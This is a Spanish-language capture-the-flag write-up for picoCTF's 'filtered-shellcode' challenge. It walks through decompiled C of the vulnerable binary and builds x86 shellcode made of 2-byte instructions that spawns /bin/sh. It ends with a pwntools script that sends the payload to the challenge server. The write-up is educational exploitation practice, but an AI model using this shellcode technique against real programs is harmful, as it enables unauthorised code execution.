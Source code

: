 Este ejercicio era más complejo y la resolución es bastante interesante por lo que he decidido dedicarle este writeup. Esta es una versión traducida al español y a mis palabras :) de [este articulo](https://github.com/apoirrier/CTFs-writeups/blob/master/PicoCTF/Pwn/filtered-shellcode.md).

## Reconocimiento

Nos dan únicamente un ejecutable *fun*, que si comprobamos con [[checksec]], tiene todas las protecciones desactivadas. Si lo descompilamos con [[ghidra]], veremos que se nos pide un código a ejecutar de un máximo de 1000 caracteres que se pasa a la función *`execute`*:

```c
void execute(int shellcode,int len)

{
  uint uVar1;
  undefined4 uStack48;
  undefined auStack44 [8];
  undefined *local_24;
  undefined *local_20;
  uint local_1c;
  uint double_len;
  int local_14;
  uint i;
  int j;
  int start;
  
  uStack48 = 0x8048502;
  if ((shellcode != 0) && (len != 0)) {
    double_len = len * 2;
    local_1c = double_len;
    start = ((double_len + 0x10) / 0x10) * -0x10;
    local_20 = auStack44 + start;
    local_14 = 0;
    for (i = 0; j = local_14, i < double_len; i = i + 1) {
      uVar1 = (uint)((int)i >> 0x1f) >> 0x1e;
      if ((int)((i + uVar1 & 3) - uVar1) < 2) {
        local_14 = local_14 + 1;
        auStack44[i + start] = *(undefined *)(shellcode + j);
      }
      else {
        auStack44[i + start] = 0x90;
      }
    }
    auStack44[double_len + start] = 0xc3;
    local_24 = auStack44 + start;
    *(undefined4 *)(auStack44 + start + -4) = 0x80485cb;
    (*(code *)(auStack44 + start))();
    return;
  }
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

Básicamente, el código se copia en *`auStack44`*, pero cada dos bytes introduce otros dos bytes con el valor `0x90` (el código de los *`nop`*). En resumen, corta el código en series de 2 bytes, por lo que tenemos que construir un *shellcode* con instrucciones de 2 bytes.

## Construyendo un shellcode

El objetivo será llamar a `execve("/bin/sh", NULL, NULL)`. Para ello debemos hacer varias cosas:

- Poner la string `/bin/sh` en el stack, para que *esp* apunte a ella.
- Poner los argumentos en los registros correspondientes (en este caso el puntero a `/bin/sh` en *ebx*, y poner *ecx* y *edx* a 0).
- Llamar a la *syscall* correspondiente a `excve`.
- Salir del programa.

Normalmente rellenariamos los registros con `mov ebx, 0`, sin embargo, esto genera *null bytes* al final, lo que puede dar problemas. Para ello utilizaremos `xor ebx, ebx` para ponerlos a cero. Además, para asignar valores, podemos evitar meter *null bytes* rellenando *sub-registros*. Por ejemplo para introducir `11` en *eax* (el código de `excve`), podemos usar `xor eax, eax; mov al, 11`.

De esta forma el código sería algo como:

```asm
; Push //bin/sh on stack (one more slash to avoid null byte)
xor eax, eax
push eax
push `n/sh`
push `//bi`

; Set parameters
mov ebx, esp
xor ecx, ecx
xor edx, edx

; call execve
mov al, 11
int 0x80

; exit
mov al, 1
xor ebx, ebx
int 0x80
```

De esta forma casi todas las instrucciones serían de 2 bytes de longitud, el único problema es introducir `/bin/sh` en el stack. Para ello hay una solución simple, construirlo en registros y pushearlo al stack.

Concretamente, con *eax* inicializado a 0, ponemos en *a1* el primer byte. Después multiplicamos *eax* por 16 y luego otra vez por 16, haciendo que el primer valor esté ahora en el segundo byte de *eax*. Además añadimos *nop*s cuando haya instrucciones de 1 byte para que todas midan 2 bytes.

El código en [[python]] quedaría así:

```python
from pwn import *

shellcode = """
/* Set registers to 0 */
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx

/* Build the stack with //bin/sh */
mov bl, 16 /* This register will hold the value 16 for shifting bytes */
/* First null bytes */
push ecx
nop
/* Then n/sh (ie bytes 110, 47, 115, 104) */
mov al, 104
mul ebx
mul ebx
mov al, 115
mul ebx
mul ebx
mov al, 47
mul ebx
mul ebx
mov al, 110
push eax
nop

/* Then //bi (ie bytes 47, 47, 98, 105) */
xor eax, eax
mov al, 105
mul ebx
mul ebx
mov al, 98
mul ebx
mul ebx
mov al, 47
mul ebx
mul ebx
mov al, 47
push eax
nop

/* syscall */
xor eax, eax
mov al, 11
mov ebx, esp
int 0x80

/* exit */
mov al,1
xor ebx, ebx
int 0x80
"""

print(asm(shellcode))

with open("out", "wb") as f:
    f.write(asm(shellcode))

sh = remote("mercury.picoctf.net", 37853)
sh.recvuntil(b"run:")
sh.sendline(asm(shellcode))
sh.interactive()
```
